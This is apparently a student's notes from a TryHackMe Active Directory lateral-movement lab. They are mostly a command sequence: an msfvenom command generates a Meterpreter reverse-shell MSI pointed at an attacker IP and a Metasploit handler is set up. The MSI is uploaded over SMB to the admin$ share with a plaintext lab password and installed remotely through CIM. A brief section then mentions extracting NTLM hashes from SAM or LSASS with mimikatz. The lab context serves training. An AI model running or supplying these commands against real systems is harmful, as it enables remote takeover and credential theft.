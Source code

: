 #### Exercise
```sh
msfvenom -p windows/meterpreter/reverse_winhttps -f msi LHOST=10.50.100.173 LPORT=8080 -o WORD_WORLD.msi

34  use exploit/multi/handler
35  set payload windows/meterpreter/reverse_winhttps
37  set lhost 10.50.100.173
38  set lport 8080
40  set exitonsession false
41  run -j

smbclient -c 'put WORD_WORLD.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994

$username = 't1_corine.waters'; 
$securePassword = Read-Host -AsSecureString -Prompt 'Enter Password'; 
$credential = New-Object System.Management.Automation.PSCredential($username, $securePassword); 
$Session = New-CimSession -ComputerName thmiis.za.tryhackme.com -Credential $credential

Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\WORD_WORLD.msi"; Options = ""; AllUsers = $false}
```

### Alternate Authentication

#### NTLM Auth
![NTLM Authentication Process](img/blog/ntlm-auth-process.png)
If the Windows domain is configured to use NTLM Auth
Can extract NTLM hashes w/ mimi from either local SAM db or from LSASS mem
